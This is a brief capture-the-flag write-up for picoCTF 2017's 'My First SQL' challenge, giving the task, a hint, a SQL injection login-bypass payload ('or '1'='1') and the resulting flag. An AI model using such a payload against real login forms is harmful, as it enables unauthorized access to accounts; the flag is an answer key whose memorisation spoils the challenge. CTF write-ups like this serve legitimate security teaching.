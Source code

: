## My First SQL - 50

### Description

I really need access to [website](http://shell2017.picoctf.com:52085/), but I forgot my password and there is no reset. Can you help?

### Hint

  - Have you heard about SQL injection?

### Write up

    username=admin
    password=asdf' or '1'='1


> be_careful_what_you_let_people_ask_a42bdc4d94e520d364018f9b3e0c645a
